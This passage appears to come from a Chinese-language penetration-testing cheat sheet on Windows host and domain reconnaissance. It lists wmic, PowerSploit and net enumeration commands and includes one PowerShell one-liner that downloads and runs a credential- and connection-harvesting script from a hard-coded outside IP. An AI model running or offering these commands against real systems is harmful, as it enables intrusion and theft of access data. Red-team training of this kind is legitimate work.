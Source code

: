 ``` bat
:: 操作系统
wmic os get name,version,InstallDate,LastBootUpTime,LocalDateTime,Manufacturer,RegisteredUser,ServicePackMajorVersion,ServicePackMinorVersion,SystemDirectory /format:htable >> wmic.html
:: 时区信息
wmic Timezone get DaylightName,Description,StandardName /format:htable >> wmic.html
```

### 11. powershell收集信息

- [Get-Information.ps1](https://gitee.com/yijingsec/nishang/blob/master/Gather/Get-Information.ps1)

  ```powershell
  #FTP访问、共享连接、putty连接、驱动、应用程序、hosts 文件、进程、无线网络记录
  powershell iex(new-object net.webclient).downloadstring('http://47.104.255.11:8000/Get-Information.ps1');Get-Information
  ```

- [PowerSploit](https://gitee.com/yijingsec/PowerSploit)

  ```powershell
  Get-NetDomain: 获取当前用户所在域的名称
  Get-NetUser: 获取所有用户的详细信息
  Get-NetDomainController: 获取所有域控制器的信息
  Get-NetComputer: 获取域内所有机器的详细信息
  Get-NetOU: 获取域中的OU信息
  Get-NetGroup: 获取所有域内组和组成员信息
  Get-NetFileServer: 根据SPN获取当前域使用的文件服务器信息
  Get-NetShare: 获取当前域内所有网络共享信息
  Get-NetSession: 获取指定服务器的会话
  Get-NetRDPSession: 获取指定服务器的远程连接
  Get-NetProcess: 获取远程主机的进程
  Get-UserEvent: 获取指定用户的日志
  Get-ADObiect: 获取活动目录的对象
  Get-NetGPO: 获取域内所有的组策略对象
  Get-DomainPolicy: 获取域默认策略或域控制器策略
  Invoke-UserHunter: 获取域用户登录的计算机信息及该用户是否有本地管理员权限
  Invoke-ProcessHunter: 通过查询域内所有的机器进程找到特定用户
  Invoke-UserEvenHunter: 根据用户日志查询某域用户登录过哪些域机器。
  ```

## 域内信息收集

### 1. net

```cmd
#查询域
net view /domain

#查询域内的所有计算机,mingy是域名
net view /domain:mingy

#查询域内所有用户组 （Enterprise Admins 组权限最大）
net group /domain

#查看域管理员的用户组
net group "domain admins" /domain

#查询所有域成员计算机列表
net group "domain computers" /domain

#查询域系统管理员用户组
net group "Enterprise admins" /domain

#查看域控制器
net group "domain controllers" /domain
```
